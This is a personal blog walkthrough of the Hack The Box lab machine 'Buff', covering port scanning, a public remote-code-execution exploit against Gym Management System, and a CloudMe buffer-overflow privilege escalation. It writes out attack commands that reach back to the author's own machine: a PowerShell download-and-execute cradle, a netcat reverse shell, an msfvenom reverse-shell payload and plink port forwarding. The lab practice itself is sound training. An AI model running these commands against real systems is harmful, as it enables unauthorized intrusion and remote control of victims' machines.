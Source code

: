 ```yaml
---
layout: post
title: Buff Walkthrouhg
categories: [htb, ctf, oscp]
---
```


As I was dedicated to place one box every day i was planning to put another box. I hit hard bottom for some reason exploit is not working and I have no clue how to move now. So i decide to take break on this machine and try break another one in few hours in night and try write blog about this. And here we are. Please enjoy this box as I did :)

![](/images/buff-htb/logo)

I started with simple nmap script

```bash
nmap -sC -sV -oA nmap/inital -Pn 10.10.10.198
# Nmap 7.91 scan initiated Mon Feb  1 22:17:42 2021 as: nmap -sC -sV -oA nmap/inital -Pn 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up.
All 1000 scanned ports on 10.10.10.198 are filtered

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Feb  1 22:21:04 2021 -- 1 IP address (1 host up) scanned in 202.13 seconds
```

Scan did not show any ports which was really strange. Ok try nmap on all TCP ports

```bash
nmap -p - -oA nmap/allports -Pn 10.10.10.198
# Nmap 7.91 scan initiated Mon Feb  1 22:22:06 2021 as: nmap -p - -oA nmap/allports -Pn 10.10.10.198
Nmap scan report for 10.10.10.198
Host is up (0.15s latency).
Not shown: 65534 filtered ports
PORT     STATE SERVICE
8080/tcp open  http-proxy

# Nmap done at Mon Feb  1 22:27:07 2021 -- 1 IP address (1 host up) scanned in 301.37 seconds
```

One port open 8080 as http-proxy. I open firefox and navigate to this site on this port

![](/images/buff-htb/01-signature.png)

Website looks like CMS site but signature on this website was quite different.. Google for this name.

![](/images/buff-htb/02-gym-exploit.png)

Bingo! There is an exploit for it. Also check in searchsploit.

```bash
searchsploit gym management
----------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                     |  Path
----------------------------------------------------------------------------------- ---------------------------------
Gym Management System 1.0 - 'id' SQL Injection                                     | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                  | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                            | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                  | php/webapps/48506.py
----------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Unauthenticated Remote COde Execution? That sounds like gun i need :) 

```bash
python 48506.py http://10.10.10.198:8080/
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload>
```

I was in. Tried to get proper shell now. *powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')" *
did not work :/

```powershell
C:\xampp\htdocs\gym\upload> \\10.10.14.9\smb\nc.exe -e cmd.exe 10.10.14.9 9001
```

Try to run nishang shell now as i can see output. I also can just run -e with powershell.exe. 
```powershell
C:\xampp\htdocs\gym\upload>powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
powershell -c "IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell.ps1')"
IEX : At line:1 char:1
+ function Invoke-PowerShellTcp
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
This script contains malicious content and has been blocked by your antivirus software.                              
At line:1 char:1
+ IEX(new-object net.webclient).downloadstring('http://10.10.14.9/shell ... 
+ ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
     + CategoryInfo          : ParserError: (:) [Invoke-Expression], ParseException
     + FullyQualifiedErrorId : ScriptContainedMaliciousContent,Microsoft.PowerShell.Commands.InvokeExpressionCommand
```

So it was AMSI that blocked me. Looking around home directory I found application called clouedme

```cmd
C:\Users\Administrator\Downloads>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is A22D-49F7

 Directory of C:\Users\Administrator\Downloads

18/07/2020  16:36    <DIR>          .
18/07/2020  16:36    <DIR>          ..
16/06/2020  15:46        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,882,407,936 bytes free
```

Quick google search reveal that this version contain buffer overflow exploit. 

![](/images/buff-htb/03-bof-root.png)

i checked for first exploit. Looking for the exploit it need to connect on port 8888. 

```cmd
C:\Users\Administrator\Downloads>netstat -ano | findstr 8888      
netstat -ano | findstr 8888
  TCP    127.0.0.1:8888         0.0.0.0:0              LISTENING       756
```

Our exploit contain POC for pop-up calc on desktop which did not make any sense for us. We decide to change payload to reverse shell
```bash
msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=9002 =b '\x00\x0A\x0D' -f python
```

Replace shellcode with new one generated. Now i need to expose localhost port me as i was not planning to install python on this machine. I used plink.exe. (there is an issue with plink.exe default on machine. Always download latest version from website)

PS C:\users\shaun\downloads> .\plink.exe -R 8888:127.0.0.1:8888 -P 4222 root@10.10.14.9

I had to use non standard port as HTB will not allow to connect on port 22.

After that just lunch me netcat session and execute python script

![](/images/buff-htb/04-root.png)
